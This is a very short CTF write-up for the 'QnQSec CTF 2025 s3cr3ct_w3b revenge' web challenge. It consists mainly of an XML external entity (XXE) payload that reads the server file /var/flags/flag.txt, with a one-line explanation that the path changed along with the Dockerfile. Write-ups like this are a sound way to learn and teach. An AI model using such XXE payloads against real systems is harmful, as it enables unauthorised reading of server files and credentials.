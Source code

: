 # QnQSec CTF 2025 - s3cr3ct_w3b revenge
Exactly the same with `s3cr3ct_w3b` :Đ

[**QnQSec CTF 2025 — s3cr3ct_w3b**]([https://www.notion.so/QnQSec-CTF-2025-s3cr3ct_w3b-28f9cb9a12cb80e48464ea2cf72769d2?pvs=21](https://github.com/trannghiach/CTF-Writeups/blob/main/QnQSec%20CTF%202025/Web/s3cr3ct_w3b.md))

Change your payload to:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///var/flags/flag.txt"> ]>
<data>&xxe;</data>
```

Because they changed the Dockerfile
